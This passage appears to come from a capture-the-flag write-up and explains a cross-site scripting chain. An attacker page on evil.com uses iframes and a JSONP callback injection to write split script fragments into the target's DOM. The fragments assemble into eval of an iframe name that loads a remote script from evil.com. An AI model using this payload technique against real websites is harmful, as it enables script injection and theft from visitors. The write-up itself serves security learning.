 #### 2. Collecting the HTML and Rendering it

We create an HTML page on our own server (`http://evil.com/some.html`):

```html
<iframe src="https://somevideos.appsecil.ctf.today/" name="x" onload="go()"></iframe>
<iframe id="y" name="s = document.createElement('script'); s.src='http://evil.com/some.js';document.head.appendChild(s);"></iframe>

<script>
function loadIframe(uid){
    return new Promise(resolve => {
        y.src = `https://somevideos.appsecil.ctf.today/videos/view?id=${uid}%26callback=top.x.document.write%23#debug`;
        y.onload = function(){
            return resolve(this);
        }
    });
}

async function go(){
    await loadIframe("48a1e399-be90-4d8b-90ad-6ab397357601"); // <script>/*
    await loadIframe("20489263-0089-4ba6-8a17-d9636bbb2427"); // */eval(/*
    await loadIframe("49b45827-6a3d-41ec-bcd6-6d9b83410221"); // */top[1]/*
    await loadIframe("5a835c81-26f9-427e-ba80-95aecd7d0c03"); // */.name)//
    await loadIframe("883fd186-24c8-480d-98b4-0c1e47e72fd2"); // </script>
}
</script>
```

When someone visits this page, what will happen is:

1. The `x` iframe will load the target website
2. When the iframe has fully loaded, it will call `go()`
3. `go()` will start smuggling the HTML into the `x` iframe via the `y` iframe. Each time, it will call `top.x.document.write` writing the current JSON object to the DOM.
4. When all the HTML is smuggled to the DOM, we end up with:

```html
{"success":true,"data":{"title":"<script>/*","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"*/eval(/*","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"*/top[1]/*","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"*/.name)//","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"</script>","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}
```

5. This, of course, translates to `<script>eval(top[1].name)</script>`, meaning that we are executing the iframe name as Javascript
6. For our own convenience, the Javascript code hidden in the iframe name just loads another javascript file where we can easily develop our real exploit logic
